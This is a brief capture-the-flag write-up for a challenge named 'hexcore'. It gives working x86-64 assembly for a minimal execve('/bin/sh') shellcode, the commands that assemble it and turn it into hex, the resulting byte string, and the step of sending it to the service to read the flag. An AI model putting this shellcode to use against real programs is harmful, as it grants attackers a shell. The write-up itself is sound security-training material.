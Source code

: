 # Writeup

Find smallest `execve("/bin/sh", NULL, NULL)` [shellcode](https://systemoverlord.com/2016/04/27/even-shorter-shellcode.html).

Write [shellcode.s](./shellcode.s) with required string "HexCore" at the end:

```asm
.intel_syntax noprefix
.section .text
    .global _start

_start:
    xor esi, esi
    push rsi
    mov rbx, 0x68732f2f6e69622f
    push rbx
    push rsp
    pop rdi
    imul esi
    mov al, 0x3b
    syscall
    .ascii "HexCore"
```

Compile and convert shellcode to hex:

```
$ as shellcode.s
$ objcopy -O binary a.out shellcode.bin -j .text
$ xxd -ps -c 0 shellcode.bin`
31f65648bb2f62696e2f2f736853545ff7eeb03b0f05486578436f7265
```

Use shellcode as input to pwn hexcore.
Get flag using `ls` and `cat flag.txt`.
